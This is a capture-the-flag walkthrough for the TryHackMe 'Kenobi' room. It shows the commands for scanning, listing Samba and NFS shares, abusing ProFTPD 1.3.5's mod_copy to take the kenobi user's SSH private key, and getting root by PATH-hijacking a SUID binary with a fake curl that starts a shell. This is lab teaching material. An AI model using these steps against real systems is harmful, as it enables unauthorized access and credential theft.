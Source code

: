 # Kenobi Walkthrough - Tryhackme

![Kenobi](./logo.png "Kenobi")

[Kenobi](https://tryhackme.com/room/kenobi) is a nice room which involves enumerating Samba and NFS shares, exploiting ProFtpd and then using a SUID binary to escalate privileges.


### Task 1 - Deployment of Machine
1. Deploy the machine and scan for open ports in it.
2. Running Nmap on the host shows 7 ports are open.
    > nmap -sC -sV -p- [HOST-IP] 
    
    ![Nmap Scan Result](./nmap-res.png "Nmap Scan Result")


Nmap script tells a lot about the host. The following points are to be noted here
- The host is running Linux.
- There's a website running on port 80, which has 1 disallowed entry in `robots.txt`, also the script found an `admin.html` page. 
![Robots](./robots.png "robots.txt screenshot")

- `admin.html` is just a "trap".
- Nmap shows that the host is running samba. Let's enumerate it, which is also the next task.

### Task 2 - Enumerating Samba Shares

Samba has two ports 139, 445. <br />
![Samba Ports](./samba.png "Samba Ports")

Nmap can enumerate Samba shares using nse scripts.
> nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [HOST-IP]

Another way to do it is using the `smbclient`.
> smbclient -N -L //[HOST-IP]/

The `-N` does not check for password and `-L` is to list the shares available.

![Samba Shares](./samba_shares.png "Samba Shares")

1. Host has 3 samba shares, of which `anonymous` is of our interest.

Now, connect to the `anonymous` share.
> smbclient -N //[HOST-IP]/anonymous

![Anonymous Share](./anonymous.png "Anonymous Share")

You can recursively download the SMB share too. Submit the username and password as nothing.
> smbget -R smb://[HOST-IP]/anonymous

2. There is a **log.txt** file in the share.

`log.txt` conatains information about SSH key and ProFTPD and Samba configurations.
![log.txt](./log1.png "log.txt")
![log.txt](./log2.png "log.txt")

This information might be useful later.


3. FTP is running on port **21**.

Earlier nmap port scan had shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Let's use nmap to enumerate this.
> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [HOST-IP]

![nfs](./nfs.png "Nmap script result")

4. What mount can we see? **/var**

### Task 3 - Gaining Initial Access: Exploiting ProFtpd

1. From Nmap port scan result, ProFtpd version is **1.3.5**.

Checking the Exploit-DB for ProFtpd
> searchsploit proftpd

![xdb](./xdb.png)

2. There are **3** exploits for this version of Proftpd.

There is an exploit on the `mod_copy module`. The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Now since the FTP service is running as kenobi user(from log.txt) we can get the private key of kenobi using SITE CPFR and SITE CPTO commands.
> nc [HOST-IP] 21

![Exploiting FTP](./cpto.png)

We put the private key in `var` because it can be mounted using nfs.

Mount the `/var` directory.
> mkdir /mnt/kenobiNFS <br />
> mount [HOST-IP]:/var /mnt/kenobiNFS <br />
> cp /mnt/kenobiNFS/tmp/id_rsa .

We now have the private key of kenobi, use this to log in as kenobi and get the user flag.
> ssh -i id_rsa kenobi@[HOST-IP]


### Task 4 - Privilege Escalation

Search for SUID binaries in the system.
> find / -perm -u=s -type f 2>/dev/null

![Find](./find.png)

1. What file looks particularly out of the ordinary? **/usr/bin/menu** which is running as root.

Run the menu binary.
> menu

![menu](./menu.png)

2. Run the binary, how many options appear? **3**

Run strings on it to see what is happening internally.
> strings /usr/bin/menu

![strings](./strings.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
We can create a malicious curl binary and add it to `$PATH`, so that when `menu` is executed it calls malicious curl.
> echo /bin/sh > /tmp/curl <br />
> chmod 777 /tmp/curl <br />
> export PATH=/tmp:$PATH <br />
> menu

![curl](./curl.png)

Get the root flag!
